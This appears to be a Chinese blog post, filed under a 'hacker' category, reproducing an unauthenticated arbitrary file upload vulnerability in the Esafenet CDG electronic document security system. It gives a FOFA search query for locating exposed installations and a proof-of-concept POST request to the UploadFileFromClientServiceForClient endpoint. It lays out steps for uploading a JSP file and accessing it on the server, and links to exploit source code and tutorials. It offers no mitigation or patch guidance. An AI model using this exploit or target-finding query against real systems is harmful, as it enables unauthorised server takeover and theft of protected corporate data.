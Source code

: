 ```yaml
---
title: 亿赛通电子文档安全管理系统XStream反序列化漏洞任意文件上传利用
date: 2024-09-29 17:50:52
categories: 黑客
tag: 漏洞
---
```

一、产品简介
亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。
二、漏洞描述
亿赛通电子文档安全管理系统UploadFileFromClientServiceForClient接口处存在任意文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。
三、影响范围
未知
四、复现环境
FOFA：app=“亿赛通-电子文档安全管理系统”
五、漏洞复现
1.访问存在漏洞网站，抓包
2.POC
```angular2html
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: IP：port
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1


上传的文件内容
```
3.测试，上传成功
4.访问ip:port/tttT.jsp


利用源码：https://github.com/candyadmin/CDGXStreamDeserRCE
教程：
https://www.yuque.com/u34516370/hi2ux9/nibcqge2832vptra
https://blog.csdn.net/uuzeray/article/details/136690493
